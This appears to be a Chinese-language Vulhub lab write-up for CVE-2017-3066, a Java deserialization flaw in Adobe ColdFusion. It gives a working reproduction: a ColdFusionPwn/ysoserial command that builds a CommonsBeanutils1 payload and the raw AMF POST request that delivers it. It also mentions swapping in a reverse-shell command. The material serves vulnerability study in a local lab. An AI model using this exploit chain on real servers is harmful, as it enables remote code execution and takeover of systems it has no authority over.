



# Adobe ColdFusion 反序列化漏洞（CVE-2017-3066）

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion中存在java反序列化漏洞。攻击者可利用该漏洞在受影响应用程序的上下文中执行任意代码或造成拒绝服务。以下版本受到影响：Adobe ColdFusion (2016 release) Update 3及之前的版本，ColdFusion 11 Update 11及之前的版本，ColdFusion 10 Update 22及之前的版本。

参考链接：

- https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html
- https://www.exploit-db.com/exploits/43993
- https://github.com/codewhitesec/ColdFusionPwn

## 漏洞环境

启动漏洞环境：

```
docker-compose up -d
```

等待数分钟时间，环境启动成功，访问`http://your-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。

## 漏洞复现

我们使用参考链接中的[ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn)工具来生成POC：

```
java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/success' poc.ser
```

POC生成于poc.ser文件中，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为application/x-amf：

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
```



进入容器中，发现`/tmp/success`已成功创建：



将POC改成[反弹命令](http://www.jackson-t.ca/runtime-exec-payloads.html)，成功拿到shell：


